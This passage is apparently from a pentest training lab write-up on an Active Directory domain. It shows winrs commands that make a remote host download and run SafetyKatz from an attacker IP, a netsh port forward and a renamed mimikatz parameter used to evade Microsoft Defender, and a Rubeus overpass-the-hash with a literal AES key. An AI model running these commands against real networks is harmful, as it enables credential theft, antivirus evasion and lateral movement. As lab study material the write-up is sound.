 If we run `SafetyKatz` via the `Loader` directly from the webserver, MD will complain about it because it includes an external IP address (attacker's IP):

{% code overflow="wrap" %}
```powershell
winrs -r:dcorp-mgmt "cmd /c C:\users\public\Loader.exe -path http://172.16.100.37/SafetyKatz.exe sekurlsa::evasive-keys exit"
```
{% endcode %}

A workaround would be to do it via a port forward. Any connection made to `dcorp-mgmt` port `8080` will be forwarded to the attacker's machine port `80`:

{% hint style="info" %}
The `sekurlsa` parameter `ekeys` was renamed to `evasive-keys` to avoid MD flagging.
{% endhint %}

{% code overflow="wrap" %}
```sh
# Create a port forward from dcorp-mgmt to the attacker machine
$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.37"

# Download and execute binary via localhost
winrs -r:dcorp-mgmt "cmd /c C:\users\public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::evasive-keys exit"
```
{% endcode %}

Now we can OtH:

{% code overflow="wrap" %}
```powershell
Loader.exe -path Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:c:\windows\system32\cmd.exe /show /ptt
```
{% endcode %}

A new shell will spawn in the `svcadmin` context. This is a remote type 9 login, so the context will show only when accessing a remote host

{% code overflow="wrap" %}
```sh
> klist

Current LogonId is 0:0x6666f8a

Cached Tickets: (1)

#0>     Client: svcadmin @ DOLLARCORP.MONEYCORP.LOCAL
        Server: krbtgt/DOLLARCORP.MONEYCORP.LOCAL @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        
> whoami
dcorp\student337

> winrs -r:dcorp-dc cmd /c set username
USERNAME=svcadmin

# List running services and as who they run as
>winrs -r:dcorp-mgmt cmd /c wmic service get Name,State,StartName
MSSQLSERVER   dcorp\svcadmin   Running

>winrs -r:dcorp-mgmt cmd /c powershell "Get-WmiObject Win32_Service | Where-Object { $_.StartName -like '*svcadmin*' } | Select Name, StartName, State"


Name        StartName      State
```